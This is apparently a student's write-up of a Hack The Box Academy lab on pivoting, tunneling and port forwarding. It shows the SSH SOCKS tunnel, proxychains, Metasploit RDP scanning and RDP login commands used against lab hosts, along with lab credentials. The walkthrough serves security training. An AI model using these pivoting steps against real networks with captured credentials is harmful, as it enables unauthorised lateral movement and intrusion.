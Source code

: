 ## Pivoting, Tunneling, and Port Forwarding   
Once a foothold is gained during an assessment, it may be in scope to move laterally and vertically within a target network. Using one compromised machine to access another is called pivoting and allows us to access networks and resources that are not directly accessible to us through the compromised host. Port forwarding accepts the traffic on a given IP address and port and redirects it to a different IP address and port combination. Tunneling is a technique that allows us to encapsulate traffic within another protocol so that it looks like a benign traffic stream.

# Questions and Answers: 

## Dynamic Port Forwarding with SSH and SOCKS Tunneling

 *SSH with user "ubuntu" and password "HTB_@cademy_stdnt!"*

* **You have successfully captured credentials to an external facing Web Server. Connect to the target and list the network interfaces. How many network interfaces does the target web server have? (Including the loopback interface)**

I began by connecting to the SSH server using the following command:
```bash
ssh -D 9050 ubuntu@10.129.144.206
```
After successfully logging in, I enumerated the network interfaces with:
```bash
ubuntu@WEB01:~$ ifconfig

ens192: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
        inet 10.129.144.206  netmask 255.255.0.0  broadcast 10.129.255.255
        inet6 fe80::250:56ff:feb0:403a  prefixlen 64  scopeid 0x20<link>
        inet6 dead:beef::250:56ff:feb0:403a  prefixlen 64  scopeid 0x0<global>
        ether 00:50:56:b0:40:3a  txqueuelen 1000  (Ethernet)
        RX packets 1350  bytes 117241 (117.2 KB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 155  bytes 16860 (16.8 KB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0

ens224: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
        inet 172.16.5.129  netmask 255.255.254.0  broadcast 172.16.5.255
        inet6 fe80::250:56ff:feb0:2f8  prefixlen 64  scopeid 0x20<link>
        ether 00:50:56:b0:02:f8  txqueuelen 1000  (Ethernet)
        RX packets 99  bytes 8340 (8.3 KB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 52  bytes 3910 (3.9 KB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0

lo: flags=73<UP,LOOPBACK,RUNNING>  mtu 65536
        inet 127.0.0.1  netmask 255.0.0.0
        inet6 ::1  prefixlen 128  scopeid 0x10<host>
        loop  txqueuelen 1000  (Local Loopback)
        RX packets 352  bytes 27739 (27.7 KB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 352  bytes 27739 (27.7 KB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0
```

* **Apply the concepts taught in this section to pivot to the internal network and use RDP (credentials: victor:pass@123) to take control of the Windows target on 172.16.5.19. Submit the contents of Flag.txt located on the Desktop.**


To verify that my pivot was functioning correctly, I ran the following Nmap command:

```bash
nmap -v -sV -p9050 localhost
```
The results confirmed that port 9050 was open and running tor-socks, indicating that the pivot was set up properly.

Next, I used Metasploit with ProxyChains to scan for RDP services:
```bash
proxychains msfconsole
search rdp_scanner
use auxiliary/scanner/rdp/rdp_scanner
set rhosts 172.16.5.19
run
```

The scan confirmed that RDP was enabled on 172.16.5.19:3389 with the following details:
```bash
Hostname: DC01
Domain: INLANEFREIGHT
FQDN: DC01.inlanefreight.local
OS Version: Windows Server 2019 (10.0.17763)
Network Level Authentication (NLA): Disabled
```

I then attempted to connect to the Windows host using ProxyChains and xfreerdp with the credentials HTB provided:

```bash
proxychains xfreerdp /v:172.16.5.19 /u:victor /p:pass@123
```
The connection was successful, granting me access to the remote desktop. Navigating to the Desktop directory, I found the flag and retrieved it.

